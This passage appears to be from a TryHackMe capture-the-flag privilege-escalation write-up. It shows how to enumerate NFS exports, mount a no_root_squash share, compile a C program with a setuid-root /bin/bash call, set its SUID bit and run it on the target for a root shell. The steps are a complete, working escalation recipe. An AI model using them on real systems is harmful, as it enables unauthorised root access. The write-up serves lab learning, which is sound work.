 Start by enumerating mountable shares from our attacking machine<br>
```bash
kali@kali:~/Documents/CTF/tryhackme/priv_esc$ showmount -e 0.0.0.0  
Export list for 10.10.192.122:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```
Mount one of the "no_root_squash" shares to our attacking machine and start building our executable. 
```bash
mount -o rw 0.0.0.0:/NO_ROOT_SQUASH_DIR /store/dir/here
```
Write and compile this application as root. Add SUID bit.
```C
void main() {
	setgid(0);
	setuid(0);
	system("/bin/bash");
	return;
}
```
```bash
sudo gcc pwn.c -o pwn && chmod +s pwn
```
Hop over to the shared drive on the remote machine. You can execute this to get root shell. Don't forget to clean up!<br>
```
umount /store/dir/here
```